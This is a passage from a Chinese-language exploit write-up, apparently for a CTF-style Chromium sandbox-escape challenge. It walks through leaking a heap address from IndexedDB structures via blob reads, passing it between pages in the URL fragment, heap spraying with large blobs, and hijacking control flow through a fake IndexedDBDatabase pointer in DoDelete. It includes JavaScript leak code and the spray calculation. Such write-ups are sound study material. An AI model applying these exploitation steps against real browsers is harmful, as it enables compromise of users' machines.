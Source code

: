 可以看到执行结束之后出现了堆地址。

简单查看一下class CONTENT_EXPORT IndexedDBDatabase（content/browser/indexed_db/indexed_db_database.h）可以发现这个堆地址来源于base::queue

base::queue<std::unique_ptr<ConnectionRequest>> pending_requests_;
```
0x27bef96c63e0:	0x000027bef9746560 <=ptr 	0x0000000000000004 <=size
0x27bef96c63f0:	0x0000000000000000 <=front	0x0000000000000001 <= rear
```

接下来就好办了，我们只需要遍历blob_list中每个blob的对应偏移处，只要他不为0，就可以得到heap addr

```
reader1.addEventListener("loadend", function() {
		var tmp = new BigUint64Array(reader1.result);
		if(tmp[36]!=0x0n){
			console.log(aa)
			console.log(tmp[36])
			heap_addr=tmp[36]
			num=aa
		}
	});
```

### 释放掉之前的blob重新填充

blob的值无法在申请后更改，这里参考了sad师傅的思路，就是准备另一个exp2，利用页面跳转到exp2来将旧网页的内存释放掉，泄露的堆地址通过 '#' 标签在url中传给下一个页面,这样我们在exp2中申请0x148的blob就可以再次把它拿回来

### 堆喷

之前泄漏出的heap地址不能直接使用，我们需要做一些处理：
```
var tmp=(heap_addr+0x20000000n)&(~0xfffn); 
```
将尾部置零并加上一个很大的数值。

之后多次申请较大size并且size大小尾部也为0的 blob 如0x1000*0x800，这样申请到的内存块有很大概率包含着刚刚通过运算得到的tmp地址。然后我们在申请到的blob中每隔0x1000就放置提前构造好的内容。

这样只要申请的大size blob覆盖了tmp，就可以成功spray。

### 控制流劫持

我们的目标是DoDelete，看汇编可以得知他会调用fake_indexedDBDatabase + 8位置处的指针
```
void DoDelete() {
 // ...
 db_->factory_->DatabaseDeleted(db_->identifier_);
 // ...
}


call    qword ptr [rax+8]
mov     rdi,qword ptr [rdi]
test    rdi,rdi
je      content::IndexedDBDatabase::DeleteRequest::DoDelete+0x10d 
....
```

我们只要控制fake_indexedDBDatabase**** + 8即可控制执行流。


